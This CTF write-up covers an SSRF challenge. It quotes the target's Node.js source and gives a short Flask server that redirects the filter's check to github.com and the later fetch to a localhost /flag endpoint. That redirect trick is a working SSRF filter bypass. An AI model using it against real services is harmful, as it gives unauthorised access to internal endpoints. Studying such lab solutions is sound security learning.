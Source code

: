 ```yaml
---
title: "HSCTF - HS Verifier"
date: 2022-05-25
mathjax: true
tags: [hsctf, web]
draft: false
---
```


{{< lead >}}
This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).
{{< /lead >}}

## Challenge statement

Being a web challenge, a website is provided in the statement, alongside the application's source code and a Dockerfile.

![website](website.png)

The website asks for two links, and after clicking "Go!", displays a diff between the two pages.

{{< figure src="diff.png" caption="Difference between example.com and github.com" >}}

In the source code we can find the following endpoints for the application:

```javascript
app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Inválido formato'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});
```

From this snippet, it is clear that the objective of the challenge is to somehow get a request to the `/flag` endpoint coming from **localhost**.
This can be achieved by tricking the web server into perform that request through an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability.

## Working the problem

At first it may seem that simply placing "localhost" on one of the main page's inputs, would display the flag in the diff.
However, when attempting that strategy, the server sends back this response:

![denied](denied.png)

This is due to the `validifyURL` function, also provided in the source code:

```javascript
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

There is an SSRF filter implemented, which blocks any requested directed to itself. Providing the public IP also doesn't work.
The solution is to somehow provide a link that passes the SSRF filter, but still makes a call to localhost when performing the diff.
Note that the response from the SSRF filter is ignored.
This means that the application must make another request in order to perform the diff, as is confirmed in the `diffURLs` function.

```javascript
async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};
```

## Solution

By providing a link to a controlled server, it is possible to redirect the SSRF filter's request to a valid URL and then redirect the next request to localhost.
A way to achieve this is through a simple [Flask](https://flask.palletsprojects.com/en/2.1.x/) application:

```python
from flask import Flask, redirect, g


app = Flask(__name__)

local = False

@app.route('/')
def index():
    global local
    if not local:
        local = True
        return redirect("https://github.com")
    else:
        return redirect("http://127.0.0.1/flag")



app.run('0.0.0.0', 5000)
```

Providing this web server's link to the site will display the flag on the page.

{{< alert >}}
**NOTE**: with this implementation, only one of the links can point to the flask application
{{< /alert >}}

![flag](flag.png "The censored flag is shown at the bottom of the page")
